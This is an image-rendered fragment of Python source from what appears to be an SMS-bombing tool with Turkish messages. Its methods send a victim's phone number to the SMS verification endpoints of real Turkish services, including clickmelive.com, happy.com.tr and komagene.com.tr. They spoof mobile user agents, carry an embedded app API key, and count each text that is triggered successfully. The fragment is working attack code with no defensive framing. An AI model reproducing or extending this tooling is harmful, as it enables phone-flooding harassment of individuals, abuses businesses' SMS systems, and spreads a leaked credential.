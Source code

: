             print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> akbati-admin.poilabs.com")
    
    
    #clickmelive.com
    def Clickme(self):
        try:
            url = "https://mobile-gateway.clickmelive.com:443/api/v2/authorization/code"
            headers = {"Content-Type": "application/json", "Authorization": "apiKey 617196fc65dc0778fb59e97660856d1921bef5a092bb4071f3c071704e5ca4cc", "Client-Version": "1.4.0", "Client-Device": "IOS", "Accept-Language": "tr-TR,tr;q=0.9", "Accept-Encoding": "gzip, deflate, br", "User-Agent": "ClickMeLive/20 CFNetwork/1335.0.3.4 Darwin/21.6.0"}
            json={"phone": self.phone}
            r = requests.post(url=url, json=json, headers=headers, timeout=6)
            if r.json()["isSuccess"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> mobile-gateway.clickmelive.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> mobile-gateway.clickmelive.com")
    
    
    #happy.com.tr
    def Happy(self):
        try:
            url = "https://www.happy.com.tr:443/index.php?route=account/register/verifyPhone"
            headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Accept": "application/json, text/javascript, */*; q=0.01", "X-Requested-With": "XMLHttpRequest", "Accept-Language": "en-US,en;q=0.9", "Accept-Encoding": "gzip, deflate", "Origin": "https://www.happy.com.tr", "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 15_7_8 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko)", "Referer": "https://www.happy.com.tr/index.php?route=account/register"}
            data = {"telephone": self.phone}
            r = requests.post(url=url, data=data, headers=headers, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> happy.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> happy.com.tr")
    

    #komagene.com.tr
    def Komagene(self):
        try:
            url = "https://gateway.komagene.com.tr/auth/auth/smskodugonder"
            json={"Telefon": self.phone,"FirmaId": "32"}
            headers = {"user-agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 15_7_8 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko)"}
            r = requests.post(url=url, headers=headers, json=json, timeout=6)
            if r.json()["Success"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> gateway.komagene.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> gateway.komagene.com.tr")
    